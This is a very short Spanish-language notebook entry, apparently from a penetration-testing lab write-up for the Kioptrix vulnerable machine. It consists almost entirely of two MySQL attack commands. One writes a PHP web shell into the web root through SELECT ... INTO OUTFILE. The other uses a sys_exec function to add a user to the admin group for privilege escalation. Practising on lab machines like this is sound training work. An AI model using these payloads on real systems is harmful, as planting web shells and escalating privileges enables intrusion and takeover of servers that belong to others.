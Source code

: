 Usado en [[KioptrixLvl1.3-4]]
```sql
mysql> SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/shell.php';
```

```sql
mysql> select sys_exec('usermod -aG admin alexi');
```